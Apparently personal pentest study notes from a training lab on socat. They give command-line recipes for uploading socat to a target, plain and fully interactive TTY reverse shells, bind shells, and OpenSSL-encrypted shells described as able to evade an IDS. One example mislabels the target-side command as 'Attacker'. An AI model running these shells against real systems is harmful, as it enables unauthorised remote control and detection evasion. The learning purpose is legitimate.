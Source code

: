 ```yaml
---
{"dg-publish":true,"permalink":"/socat/","hide":"true"}
---
```


- Netcat on steroids.
- Socat shells are **usually more stable** than netcat shells.
- Both have `.exe` versions.
- two big catches:
	1. The syntax is more difficult
	2. Socat is very rarely installed by default.
- Limited to **Linux target**
- On Windows will be no more stable than a netcat shell.
1. On the attacker download the file
```sh
   wget https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat
   ```
   and set a python server
   ```sh
   sudo python3 -m http.server 80
   ```
2. On the target, get the file
	```sh
	wget <LOCAL-IP>/socat -O /tmp/socat
	```
	On windows
	```sh
	Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe
	```
## Reverse shell
### On the attacker
basic reverse shell listener
```sh
socat TCP-L:<port> -
```
### On the target
#### Windows
On **Windows** we would use this command to connect back:
```sh
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes
```
The "pipes" option is used to force powershell (or cmd.exe) to use Unix style standard input and output.
#### Linux
This is the equivalent command for a **Linux** Target:
```sh
socat TCP:<attacker-IP>:<attacker-PORT> EXEC:"bash -li"
```
### Fully stable Linux tty reverse shell
#### On the attacker 
This will only **work when the target is Linux**, but is _significantly_ more stable.
Perhaps one of its most useful applications.
```sh
socat TCP-L:<port> FILE:`tty`,raw,echo=0
```
- The first listener can be connected to with any payload; however, this special listener must be activated with a very specific socat command.
- This means that the target must have socat installed.
- Most machines do not have socat installed by default, however, it's possible to upload a [precompiled socat binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true), which can then be executed as normal.
#### On the target
```sh
socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```
- The first part  we're linking up with the listener running on our own machine.
- The second part creates an interactive bash session with  `EXEC:"bash -li"`.
- We're also passing the arguments: pty, stderr, sigint, setsid and sane:
	- **pty**, allocates a pseudoterminal on the target -- part of the stabilisation process
	- **stderr**, makes sure that any error messages get shown in the shell (often a problem with non-interactive shells)
	- **sigint**, passes any Ctrl + C commands through into the sub-process, allowing us to kill commands inside the shell
	- **setsid**, creates the process in a new session
	- **sane**, stabilises the terminal, attempting to "normalise" it.
- As normal, on the **left** we have a **listener** running on our local **attacking machine**, on the **right** we have a simulation of a compromised **target**, running with a **non-interactive shell**. **Using the non-interactive** netcat **shell**, we **execute** the special **socat** command, and **receive a** fully **interactive** bash shell on the socat listener to the left:
![](https://i.imgur.com/etAuYzz.png)
- Note that the **socat shell is fully interactive**, allowing us to use interactive commands such as **SSH**.
- This can then be further **improved by setting the stty values** as seen in the previous task, which will let us **use** text editors such as **Vim or Nano**.
- **If**, at any point, a socat shell **is not working correctly**, it's well worth increasing the verbosity by **adding** `-d -d` into the command. This is very useful for experimental purposes, but is not usually necessary for general use.
## Bind shell
### On the target
#### Linux
On a Linux target we would use the following command:
```sh
socat TCP-L:<PORT> EXEC:"bash -li"
```
#### Windows
On a Windows target we would use this command for our listener:
```sh
socat TCP-L:<PORT> EXEC:powershell.exe,pipes
```
We use the "pipes" argument to interface between the Unix and Windows ways of handling input and output in a CLI environment.  
### On the attacker
Regardless of the target, we use this command on our attacking machine to connect to the waiting listener.
```sh
socat TCP:<TARGET-IP>:<TARGET-PORT> -
```
## Encrypted Shells
- **Cannot be spied** on unless you have the decryption key
- Are often able to **bypass an [[Networking/Seguridad en redes/Seguridad Perimetral/IDS\|IDS]]** as a result.
- TCP should be replaced with `OPENSSL` when working with encrypted shells
- Generate a certificate
```sh
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
```
THis creates a 2048 bit RSA key with matching cert file, self-signed, and valid for just under a year.
will ask you to fill in information about the certificate, This can be left blank, or filled randomly.
- merge the two created files into a single `.pem` file:
```sh
cat shell.key shell.crt > shell.pem
```
### Reverse shell
- when we set up our reverse shell listener, we use:
```sh
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -
```
- This sets up an OPENSSL listener using our generated certificate
- `verify=0` tells the connection to not bother trying to validate that our certificate has been properly signed by a recognised authority.
- Please note that the certificate _must_ be used on whichever device is listening.
To connect back, we would use:
```sh
socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash
```

- The following image shows an OPENSSL Reverse shell from a Linux target. As usual, the target is on the right, and the attacker is on the left:

![](https://i.imgur.com/UbOPN9q.png)  
This technique will also **work** with the special, **Linux-only TTY shell** covered in the previous task -- figuring out the syntax for this will be the challenge for this task.
Feel free to use the Linux Practice box (deployable at the end of the room) to experiment if you're struggling to obtain the answer.
#### Example reverse shell full tty and encripted
Listenet
```sh
socat OPENSSL-LISTEN:53,cert=encrypt.pem,verify=0 FILE:`tty`,raw,echo=0
```
Attacker:
```sh
socat OPENSSL:10.10.10.5:53,verify=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```
### Bind shell
Target:
```sh
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes
```
Attacker:
```sh
socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -
```
Again, note that even for a Windows target, the certificate must be used with the listener, so copying the PEM file across for a bind shell is required.
